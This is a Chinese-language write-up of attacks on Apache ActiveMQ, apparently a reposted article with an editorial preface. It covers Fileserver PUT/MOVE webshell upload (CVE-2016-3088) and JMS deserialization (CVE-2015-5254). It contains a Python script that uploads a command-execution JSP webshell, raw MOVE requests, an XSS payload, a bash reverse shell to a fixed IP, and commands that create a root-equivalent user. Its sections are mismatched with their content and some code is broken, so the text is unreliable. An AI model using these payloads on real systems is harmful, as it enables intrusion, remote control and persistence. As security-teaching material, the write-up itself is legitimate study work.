








# ActiveMQ Fileserver 与 JMS 历史实验汇编（章节错配待核）

<!-- vulwiki-editorial:start -->
## 校订与适用边界

本文作为历史实验汇编保留查询：后半有 Fileserver PUT/MOVE 请求、失败现象与权限限制，以及 JMS 消息触发思路。前半章节与载荷错配，不能逐节视为独立且已验证的漏洞；版本范围和成功条件仍按下列限制阅读。

- 适用前提：Fileserver启用；JSP访问需管理员；JMS能发消息且消费/管理员查看触发反序列化；OS写账号须已有root
- 证据范围：部分节标题与内容错配；保留 Fileserver/JMS 技术材料，不能把每一节单独登记为已确认漏洞

### 本次正文校订

- 按实际内容修正 2 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 弱口令小节实际XSS载荷，源码泄露实际MOVE写文件，XSS小节实际JMS浏览URL
- 默认端口8363与前文8161矛盾
- status_code整数与字符串204比较永远失败；JSP out.print缺分号
- PUT的Python脚本介绍下面却插入创建root账号shell，明显混贴
- 5.x~5.14范围不准确；主编号现已同时记录 3088 与 5254，仍需逐项核对版本
- 修改passwd为UID0需要已有root，不能叫由普通权限提权；未授权示例带session需对照

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。
- 含落盘脚本或账户创建：会留下持久状态。记录本次生成的路径或账户，测试后清理这些对象并撤销关联令牌；不要删除既有业务对象。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/edJ1ZDLzHaNLX6RpuregPQ)

**目录**

ActiveMQ

攻击方式

寻找目标

弱口令

未授权访问

源代码泄露

XSS 漏洞

远程代码执行漏洞

反序列化漏洞

ActiveMQ
--------

Apache ActiveMQ 是美国阿帕奇（Apache）软件基金会所研发的一套开源的消息中间件，它支持 Java 消息服务、集群、Spring Framework 等。随着中间件的启动，会打开两个端口，61616 是工作端口，消息在这个端口进行传递；8161 是 Web 管理页面端口。

Jetty 是一个开源的 servlet 容器，它为基于 Java 的 web 容器，例如 JSP 和 servlet 提供运行环境。ActiveMQ 5.0 及以后版本默认集成了 jetty。在启动后提供一个监控 ActiveMQ 的 Web 应用。

攻击方式
----

下面总结一下针对 ActiveMQ 消息中间件的攻击方式，总结来源于 wooyun、vulhub、exploit-db。

### 寻找目标

1、由于这个中间件会开放 8363 端口和 61616 端口，因此可以通过扫描端口，发现存在该服务的服务器，从而进行攻击。

2、由于 ActiveMQ 5.0 及以后版本默认集成了 jetty，因此也可以通过 headers 头信息中查看服务器信息判断，但这个不足以确定服务器安装了 ActiveMQ。

### 弱口令

```
/admin/queueBrowse/example.A?view=rss&feedType=<script>alert("ACTIVEMQ")</script>
```

### 未授权访问

```python
import requests
url = "http://192.168.0.11:8161/fileserver/shell2.txt"
headers = {
    'User-Agent':'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/66.0.3359.139 Safari/537.36',
    'Cookie':'JSESSIONID=1gfll70wf7hfnbsmipaa6es3b'
    }
payload = '''
<%@ page import="java.io.*" %>
<%
  out.print("Hello</br>")
  String strcmd = request.getParameter("cmd");
  String line = null;

  Process p = Runtime.getRuntime().exec(strcmd);
  BufferedReader br =new BufferedReader(new InputStreamReader(p.getInputStream()));

  while((line = br.readLine()) != null) {
    out.print(line+"</br>");    
  }
%>
'''
response = requests.put(url,headers=headers,data=payload)


status = response.status_code
if status == "204":
    print "PUT success!"
else:
    print "False,please again!"
```

### 源代码泄露

```
MOVE /fileserver/shell.txt HTTP/1.1
Destination: file:///opt/activemq/webapps/api/shell.jsp
Host: 192.168.0.11:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 0
```

### XSS 漏洞

看这个 POC 应该是需要进入后台才可以利用的。

```
http://192.168.0.11:8161/admin/browse.jsp?JMSDestination=event
```

### 远程代码执行漏洞

CVE-2016-3088                                                                                                                      

ActiveMQ 的 web 控制台分三个应用 ，admin，api 和 fileserver，其中 admin  是管 理 员 页 面  api 是 接 口，fileserver 是 储 存 文 件 的接 口；admin 和 api 都需要登录后才能使用，fileserver 无需登录。fileserver 是一个 RESTful API 接口，我们可以通过 GET、PUT、DELETE 等 HTTP 请求对其中存储的文件进行读写操作，其设计目的是为了弥补消息队列操作不能传输、存储二进制文件的缺陷。在 5.12.x~5.13.x 版本中，已经默认关闭了 fileserver 这个应用（你可以 conf/jetty.xml 中开启之）；在 5.14.0 版本以后，彻底删除了 fileserver 应用。

漏洞原理：ActiveMQ 中的 FileServer 服务允许用户通过 HTTP PUT 方法上传文件到指定目录，构造 PUT 请求上传 webshell 到 fileserver 目录，然后通过 Move 方法将其移动到有执行权限的 admin/ 目录。

漏洞影响：Apache ActiveMQ 5.x ~ 5.14.0

漏洞利用流程

1、PUT 上传

2、获取绝对路径

3、移动文件到 admin 目录或者 api 目录下，登录访问 webshell

PUT 上次 Webshell 代码



测试 PUT 老是失败，因此写了个 python 脚本，免得改请求包。

```
useradd -g root -s /bin/bash -u 10010 test //添加test用户并将其添加到root组
sed -i "s/test:x:10010/test:x:0/g" /etc/passwd  //将passwd中的test的uid修改为0
echo "test:sd123456" | chpasswd  //为test用户设置一个密码
```

获取绝对路径

靶场给的页面，实际环境中应该是不存在的。



实际环境中可以通过下面的方法爆路径：



移动文件到 admin 目录或者 api 目录下，登录访问 webshell

```
MOVE /fileserver/shell.txt HTTP/1.1
Destination: file:///opt/activemq/webapps/api/shell.jsp
Host: 192.168.0.11:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 0
```

我移动文件不知道为什么老是状态码 500 错误。

局限性

webshell 需要管理员账号密码，但理论上我们可以覆盖 jetty.xml，将 admin 和 api 的登录限制去掉，然后再写入 webshell。

### 反序列化漏洞

CVE-2015-5254

漏洞原理：Apache ActiveMQ 5.13.0 之前 5.x 版本中存在安全漏洞，该漏洞源于程序没有限制可在代理中序列化的类。远程攻击者可借助特制的序列化的 Java Message Service(JMS)ObjectMessage 对象利用该漏洞执行任意代码。                    

 工具:https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar

漏洞利用流程

1. 构造（可以使用 ysoserial）可执行命令的序列化对象

2. 作为一个消息，发送给目标 61616 端口

3. 访问 web 管理页面，读取消息，触发漏洞

下图是构造可执行命令的序列化对象，并发送给目标 61616 端口:



访问 web 管理页面，点击消息：

```
http://192.168.0.11:8161/admin/browse.jsp?JMSDestination=event
```



成功执行命令，如下图所示，多了 success 目录：



不仅如此我们还可以修改命令，反弹 shell

```shell
bash -i >& /dev/tcp/192.168.31.41/8080 0>&1
```

测试时，反弹 shell 失败了，原因不明。

还可以修改命令，增加用户并提权

```
useradd -g root -s /bin/bash -u 10010 test //添加test用户并将其添加到root组
sed -i "s/test:x:10010/test:x:0/g" /etc/passwd  //将passwd中的test的uid修改为0
echo "test:sd123456" | chpasswd  //为test用户设置一个密码
```





局限性

   通过 web 管理页面访问消息并触发漏洞这个过程需要管理员权限。                         在没有密码的情况下，我们可以诱导管理员访问我们的链接以触发，                     或者伪装成其他合法服务需要的消息，等待客户端访问的时候触发。                                                                                                                                     

转发来源，侵删 ：https://blog.csdn.net/zhang8907xiaoyue/article/details/79659952


  

**戳**

**“阅读原文”**

**体验免费靶场！**

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
